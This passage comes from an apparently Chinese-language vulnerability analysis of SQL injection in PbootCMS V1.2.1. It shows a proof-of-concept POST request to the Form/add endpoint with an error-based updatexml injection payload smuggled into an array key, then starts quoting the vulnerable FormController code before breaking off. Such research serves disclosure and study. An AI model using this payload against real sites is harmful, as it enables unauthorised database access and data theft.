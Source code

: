 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

0x01.2 免费通话insert sql注入
-----------------------------

注：本地测试的时候，这个地方的注入需要后台添加一条数据才能注！真实环境的话，开放了这个功能直接抓包即可
进入后台

![](resource/PbootCMSsql注入/media/rId28.png)

![](resource/PbootCMSsql注入/media/rId29.png)

![](resource/PbootCMSsql注入/media/rId30.png)

![](resource/PbootCMSsql注入/media/rId31.png)

### 0x08.2.1 漏洞演示

![](resource/PbootCMSsql注入/media/rId33.png)

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Form/add?fcode=2
    post：
      tel[tel`) VALUES ( 1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111

![](resource/PbootCMSsql注入/media/rId34.png)

### 0x08.2.2 漏洞解读

路径：PbootCMS-V1.2.1\\apps\\home\\controller\\FormController.php
方法：add(

    // 表单提交
        public function add()
        {
            if ($_POST) {

                if (time() - session('lastsub') < 10) {
                    alert_back('您提交太频繁了，请稍后再试！');
                }

                if (! $fcode = get('fcode', 'var')) {
                    alert_back('传递的表单编码有误！');
                }

                if ($fcode == 1) {
                    alert_back('表单提交地址有误，留言提交请使用留言专用地址!');
                }

                // 验证码验证
                /*
                 * $checkcode = post('checkcode');
                 * if ($this->config('message_check_code')) {
                 * if (! $checkcode) {
                 * alert_back('验证码不能为空！');
                 * }
                 * if ($checkcode != session('checkcode')) {
                 * alert_back('验证码错误！');
                 * }
                 * }
                 */
